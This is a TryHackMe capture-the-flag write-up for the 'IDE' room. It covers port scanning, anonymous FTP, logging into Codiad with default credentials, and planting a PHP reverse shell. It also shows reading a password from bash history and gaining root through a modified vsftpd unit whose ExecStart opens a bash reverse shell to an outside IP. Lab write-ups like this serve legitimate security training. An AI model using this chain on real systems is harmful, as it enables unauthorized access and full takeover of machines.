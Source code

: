 # TryHackMe - IDE

[Room link](https://tryhackme.com/room/ide)

---

## Enumeration

I use nmap for scanning the machine ports and services avalaibles.

First scan :

```bash
$ nmap -sS <target_ip>
[...]
Host is up (0.013s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can see we have few interesting services like ftp and http. We don't focus ssh for the moment.

Second scan : full scan :

```bash
$ sudo nmap -sS -T5 -p- <target_ip>
[...]
Not shown: 65495 closed ports, 36 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
62337/tcp open  unknown
```

---

### FTP

First, i try to connect to the ftp service remotly on anymous.

```bash
$ ftp <target_ip>
[...]
Name (10.10.236.174:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
```

Ok, we are connected as anonymous. Let's see what it is avalaible.

```bash
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 0        114          4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
drwxr-xr-x    2 0        0            4096 Jun 18  2021 ...
226 Directory send OK.
ftp> cd ...
250 Directory successfully changed.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             151 Jun 18  2021 -
drwxr-xr-x    2 0        0            4096 Jun 18  2021 .
drwxr-xr-x    3 0        114          4096 Jun 18  2021 ..
226 Directory send OK.
ftp> get -
local: ./- remote: -
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for - (151 bytes).
226 Transfer complete.
151 bytes received in 0.00 secs (1.5653 MB/s)
ftp> 
```

We have download the file named "-". Let's see this file content.

```txt
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

---

### HTTP 80

A web site is avalaible on the port 80. When you request http://<target_ip>/, we have a response with the apache default page. The next step it is to enumerate pages.

This website seems empty after a gobuster scan.

---

### HTTP 62337

Let's do an another web content scan, we will use dirb this time :

```bash
$ dirb http://<target_ip>/
[...]
---- Scanning URL: http://10.10.207.204:62337/ ----
==> DIRECTORY: http://10.10.207.204:62337/components/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/data/                                                                                                                                   
+ http://10.10.207.204:62337/favicon.ico (CODE:200|SIZE:1150)                                                                                                                     
+ http://10.10.207.204:62337/index.php (CODE:200|SIZE:5239)                                                                                                                       
==> DIRECTORY: http://10.10.207.204:62337/js/                                                                                                                                     
==> DIRECTORY: http://10.10.207.204:62337/languages/                                                                                                                             
==> DIRECTORY: http://10.10.207.204:62337/lib/                                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/plugins/                                                                                                                               
+ http://10.10.207.204:62337/server-status (CODE:403|SIZE:281)                                                                                                                   
==> DIRECTORY: http://10.10.207.204:62337/themes/ 
```

After checked some directories, we can find an interresting information in this page : http://10.10.207.204:62337/js/system.js

```txt
/*
 *  Copyright (c) Codiad & Kent Safranski (codiad.com), distributed
 *  as-is and without warranty under the MIT License. See
 *  [root]/license.txt for more. This information must remain intact.
 */
```

We need to search the default password of Codiad, like drac said previously. In fact, he reset the john's password with the default password.

After few research the default password is ... password.

---

## Exploitation

Let's try to connect via the form on the index page with this credentials : john/password. That works !

It is possible to add a project. If we add a projet with a random name like "Test" and this path : /var/www/html/codiad we will see and we can modify some files presents on the site. Let's try to modify a file with a reverse shell. For example, we can use /languages/bg.php and replace the content with a php reverse shell. Dont't forget to replace your IP address and save. Now, we need to set a netcat listenner with this command :

```bash
$ nc -lnvp <listenning_port>
```

Now, we need to call this page /languages/bg.php.

Nice ! We get a shell on our netcat listenner.

```bash
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.124.121 55972 received!
Linux ide 4.15.0-147-generic #151-Ubuntu SMP Fri Jun 18 19:21:19 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 20:42:00 up 53 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

If we check the user drac history, we can see this following entry :

```bash
/home/drac
$ cat .bash_history
mysql -u drac -p '<drac_password>'
```

We can try to connect on the ssh to the target machine with this password.

```bash
Last login: Wed Aug  4 06:36:42 2021 from 192.168.0.105
drac@ide:~$ 
```

That works. We are connected as drac user.

---

## User flag

Now, we can get the user's flag at /home/drac/user.txt

---

Now, we need to privesc to the user root. 

If we check the sudo's commands of the drac user we can see this :

```bash
drac@ide:/$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

We can modify the service like this, to set a listenner shell at the restart of the service :

```bash
[Unit]
Description=vsftpd FTP server
After=network.target

[Service]
Type=simple
ExecStart=/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.6.186/1234 <&1'
```

Now reload daemons and restart the service, don't forget to set up a nc listenner on the right port.

```bash
$ systemctl daemon-reload
[...]
$ /usr/sbin/service vsftpd restart
```

Finally, if you check we check our nc listenner, we are root !

---

## Root flag

The flag root's flag is in /root/root.txt
